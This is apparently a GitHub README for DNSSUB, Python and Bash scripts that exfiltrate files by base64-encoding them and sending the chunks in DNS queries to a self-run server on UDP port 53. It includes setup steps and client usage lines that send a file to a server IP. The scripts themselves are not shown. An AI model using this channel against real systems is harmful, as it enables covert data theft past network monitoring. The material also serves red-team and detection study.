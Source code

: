 # DNSSUB
Exfiltrate files over dns requests using Python and/or Bash

A quick set of scripts I done after seeing DNSFTP (https://github.com/breenmachine/dnsftp) 
I used some of Breenmachine's code in the scripts, The chunks function is very handy.
I also used Simple DNS server (https://gist.github.com/andreif/6069838) as a base dns server for this script.
How it works:
Simply it takes a file converts to base64 then sends the base64 in dns requests to a server which rebuilds it on the other side.
NO encryption is used, only encoding (base64)

SETUP:
You need to change <domain><name> or <IPaddress> brackets in the scripts to your Domain and the IP you want to use.
Server Usage:
Run dnssub.py on your server which will bind to port 53 udp it will act like a dns server giving A records for the domain you enter in the script.
Client Usage: 
python client.py <file> <serverip>
./client.sh <file> <serverip>
